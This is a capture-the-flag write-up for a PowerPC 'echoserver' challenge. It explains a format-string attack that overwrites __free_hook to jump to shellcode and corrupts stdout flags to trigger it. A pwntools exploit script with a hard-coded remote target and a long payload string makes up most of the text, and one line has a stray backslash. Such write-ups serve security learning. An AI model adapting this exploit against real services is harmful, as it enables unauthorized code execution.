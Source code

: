 # echoserver

- A powerpc exploitation challenge.
- This is first time i worked on ppc exploit
- There is an obvious format string bug.
- But it directly calls exit with syscall. and the author clears all of the stack. so we can't look for the partial overwrites.
- The challenge binary is statically linked which means all of the address are known. To control the pc register. I first overwrite `__free_hook` to address of where i store my shellcode using format string bug. 
- Then i corrupted the stdout_struct->flags. Printf will do free when we corrupt stdout->flags. And we get pc control.
- The binary was stripped so to find `__free_hook` was a bit of labour work.
- 
	1. write shellcode using format string
	2. Overwrite `__free_hook` to call shellcode.
	3. Corrupt stdout->flags to cause free.
- (Qemu stack is executable)

# Exploit

```python
#!/usr/bin/python3
from pwn import *
from past.builtins import xrange
from time import sleep
import random
context.arch='powerpc'

#Exploit
if __name__ == '__main__':
#	io = process(['/usr/bin/qemu-ppc','-g','1275','./pwn22_patch'])
	io = remote('150.158.156.120',23333)

	B_fsb = b'A%83$hnA%84$hn%85$hn%86$hnA%87$hnA%88$hnA%89$hn%95c%90$hn'+\
		'%1176c%91$hn%2830c%92$hn%1138c%93$hn%9092c%94$hn%95$hn%96$hn'+\
		'%96c%97$hn%98$hn%31c%99$hnA%100$hn%32c%101$hn%2912c%102$n%103$n'+\
		'%104$hn%1912c%105$hn%5615c%106$hn%1285c%107$hn%5843c%108$hn%453c%109$hn'+\
		'%110$hn%17524c%111$hn%112$hn.'+p32(0x100a14ae)+\p32(0x100a148e)+p32(0x100a14a2)+\
		p32(0x100a14b2)+p32(0x100a1492)+p32(0x100a14a6)+p32(0x100a1486)+\
		p32(0x100a149a)+p32(0x100a1482)+p32(0x100a0eb4)+p32(0x100a0eb6)+\
		p32(0x100a1484)+p32(0x100a1490)+p32(0x100a14a4)+p32(0x100a149c)+\
		p32(0x100a14ac)+p32(0x100a1480)+p32(0x100a1488)+p32(0x100a1498)+\
		p32(0x100a148a)+p32(0x100a149e)+p32(0x100a14b0)+p32(0x100a147e)+p32(0x100a197a)+\
		p32(0x100a1978)+p32(0x100a147c)+p32(0x100a1494)+p32(0x100a14a8)+p32(0x100a1496)+\
		p32(0x100a14aa)

	io.sendafter('launch......\n',B_fsb)
	io.interactive()
```
